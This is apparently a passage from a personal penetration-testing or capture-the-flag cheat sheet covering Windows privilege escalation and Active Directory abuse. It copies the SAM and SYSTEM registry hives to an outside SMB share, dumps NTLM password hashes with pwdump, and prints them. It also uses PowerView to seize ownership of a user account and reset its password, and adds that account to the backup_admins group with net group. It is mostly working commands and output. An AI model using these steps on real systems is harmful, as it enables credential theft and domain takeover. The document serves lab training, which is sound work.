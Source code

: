 msiexec /quiet /qn /i C:\Temp\setup.msi 

## SAM


```

C:\Windows\Repair>copy "C:\Windows\Repair\SAM" \\10.9.3.94\arun\
        1 file(s) copied.

C:\Windows\Repair>copy "C:\Windows\Repair\SYSTEM" \\10.9.3.94\arun\
        1 file(s) copied.
```

Extract the hashes.

```
┌──(arun㉿kali)-[/usr/share/creddump7]
└─$ python pwdump.py ~/CTF/THM/win10priv/SYSTEM ~/CTF/THM/win10priv/SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```
## AD Writeowner ACL 

ex: User Tom has writeowner rights over claire

```bash

PS C:\Users\tom\Desktop\AD Audit\BloodHound> . .\PowerView.ps1                                                                  
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom                          
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                     
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "qwerty@1" -AsPlainText -force                      
PS C:\Users\tom\Desktop\AD Audit\BloodHound>                                                                                    
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred                     
PS C:\Users\tom\Desktop\AD Audit\BloodHound>    
```

## WriteDacl
	
    net group backup_admins
    net group backup_admins claire /add

```bash
claire@REEL C:\Users\claire>net group backup_admins                                                                                                                     
Group name     Backup_Admins                                                                                                                                            
Comment                                                                                                                                                                 
                                                                                                                                                                        
Members                                                                                                                                                                 

-------------------------------------------------------------------------------                                                 
```
